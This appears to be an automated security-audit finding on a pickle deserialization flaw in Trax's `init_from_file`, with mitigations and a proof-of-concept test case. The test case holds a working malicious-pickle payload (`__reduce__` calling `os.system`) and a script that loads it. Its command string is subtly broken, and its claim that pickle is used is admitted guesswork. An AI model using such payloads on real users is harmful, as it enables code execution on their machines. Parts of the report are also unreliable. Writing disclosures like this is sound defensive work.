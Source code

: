 - Vulnerability Name: Deserialization Vulnerability in `init_from_file`
- Description:
  - An attacker can craft a malicious pickle file and host it at a publicly accessible URL (e.g., `gs://trax-ml/models/malicious_model.pkl.gz`).
  - A user, tricked by social engineering or other means, is convinced to use `trax.models.Transformer` or another Trax model.
  - The user is then instructed to initialize the model using the `init_from_file` function, pointing it to the attacker's malicious pickle file URL: `model.init_from_file('gs://trax-ml/models/malicious_model.pkl.gz', weights_only=True)`.
  - When `init_from_file` attempts to load the model, it deserializes the pickle file. If the pickle file contains malicious code, it will be executed during the deserialization process.
- Impact: Arbitrary code execution on the user's machine or in the environment where the Trax code is being executed. This could lead to data theft, system compromise, or other malicious activities.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations: None evident from the provided files. The code in `README.md` encourages users to load models from untrusted sources without any security warnings.
- Missing Mitigations:
  - Input validation: The `init_from_file` function should validate the source of the file to be loaded, potentially restricting it to trusted sources or requiring user confirmation for untrusted sources.
  - Secure deserialization: Instead of directly using pickle, a safer deserialization method should be employed, or the model loading process should be redesigned to avoid deserialization of arbitrary code.
  - Security warnings: The documentation and examples should explicitly warn users about the risks of loading models from untrusted sources and advise them to only load models from sources they fully trust.
- Preconditions:
  - User must have Trax installed and be able to run Python code.
  - User must be tricked into using `init_from_file` with a malicious URL.
  - The malicious pickle file must be accessible from the user's environment (e.g., publicly hosted or accessible within a shared network).
- Source Code Analysis:
  - The `README.md` file demonstrates the usage of `init_from_file`:
    ```python
    model.init_from_file('gs://trax-ml/models/translation/ende_wmt32k.pkl.gz',
                         weights_only=True)
    ```
  - This code snippet shows how easily a user can load a model from a given URL.
  - The files provided do not include the implementation of `init_from_file`, so further analysis of the source code (which will be provided in later batches) is needed to confirm if pickle is indeed used and how the deserialization is handled. However, based on common Python practices and the file extension `.pkl.gz`, it is highly likely that the `pickle` library is being used for deserialization, which is known to be vulnerable to code execution attacks.
- Security Test Case:
  - Step 1: Create a malicious pickle file (`malicious_model.pkl.gz`) containing code to execute arbitrary commands. For example, to create a file named "pwned.txt" in the user's home directory:
    ```python
    import pickle
    import os
    import gzip

    class MaliciousModel:
        def __reduce__(self):
            cmd = 'os.system("touch ~/pwned.txt")'
            return (os.system, (cmd,))

    serialized_payload = pickle.dumps(MaliciousModel())

    with gzip.open('malicious_model.pkl.gz', 'wb') as f:
        f.write(serialized_payload)
    ```
  - Step 2: Host the malicious pickle file at a publicly accessible URL, for example, using Google Cloud Storage or any other web hosting service (e.g., `gs://trax-ml/models/malicious_model.pkl.gz`).
  - Step 3: Create a Python script that uses Trax to load a Transformer model and initializes it from the malicious pickle file URL:
    ```python
    import trax
    import os

    model = trax.models.Transformer(
        input_vocab_size=33300,
        d_model=512, d_ff=2048,
        n_heads=8, n_encoder_layers=6, n_decoder_layers=6,
        max_len=2048, mode='predict')

    model.init_from_file('gs://trax-ml/models/malicious_model.pkl.gz',
                         weights_only=True)
    print("Model initialized (or attempted). Check for pwned.txt in your home directory.")
    ```
  - Step 4: Run the Python script on a system with Trax installed.
  - Step 5: Verify that the `pwned.txt` file is created in the user's home directory, indicating successful arbitrary code execution.

This test case demonstrates how an attacker can leverage the `init_from_file` function to execute arbitrary code by tricking a user into loading a malicious model.